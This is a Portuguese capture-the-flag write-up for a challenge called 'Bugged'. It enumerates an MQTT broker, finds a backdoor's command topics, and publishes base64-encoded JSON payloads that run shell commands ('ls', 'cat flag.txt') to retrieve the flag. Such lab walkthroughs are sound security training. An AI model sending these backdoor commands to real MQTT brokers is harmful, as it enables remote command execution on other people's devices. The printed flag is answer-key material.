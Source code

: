 # Bugged

---

>#### Write-Up by VESPAS 
>##### ***Written by:*** Augusto Graeml (gra3ml)
>##### ***Redacted by:*** Gabriel Rossetto (R0SSETT0)

_![Imagem](imagens/iotmeme.webp)_

Nesse desafio temos um MQTT-broker com tópicos no mínimo curiosos.
Interagindo com eles podemos identificar um backdoor na rede. Vamos começar! 

_![Imagem](imagens/broker_mqtt.png)_

## Primeiro scaneamos as portas

``` bash
nmap -sV -p- --min-rate=2000 <IP>
```
_![Imagem](imagens/imagem1.png)_

## Interagindo com o Broker
Não sabemos o tópico de interesse ainda, então usamos o wildcard # para entender melhor o que está acontecendo na rede:
``` bash
mqttx sub -t"#" -h IP
```
_![Imagem](imagens/imagem2.png)_
É possível ver uma mensagem estranha no meio das outras. Decodando de base64 temos algumas informações valiosas, como um ID de dispositivo, um tópico de publicações e um tópico de subscrições e alguns comandos possíveis.

``{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}``

**Vamos testar:**

Publicando a mensagem:
``` bash
mqttx pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "HELP" -h <IP>
```
Lendo a mensagem publicada:
``` bash
mqttx sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP> 
```
**resposta:**
_![Imagem](imagens/imagem3.png)_

### Decodando: 

Format: base64({"id": "backdoor id", "cmd": "command", "arg": "argument"})

### Enviando um primeiro payload:

``{"id": "id backdooor", "cmd": "CMD", "arg" : "ls"}``

em base64:
``eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==``
_![Imagem](imagens/imagem5.png)_


**resposta:**
_![Imagem](imagens/imagem6.png)_

``{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}``

### Enviando o commando para a recuperação da flag:

base64 -> {"id": "id backdooor", "cmd": "CMD", "arg" : "ls"} 

Commando completo com o payload em base64...
``` bash
mqttx pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m"eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=" -h <IP>
``` 

### Recuperando a flag:
``` bash
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9" | base64 -d
```
_![Imagem](imagens/imagem7.png)_
### Room finalizada!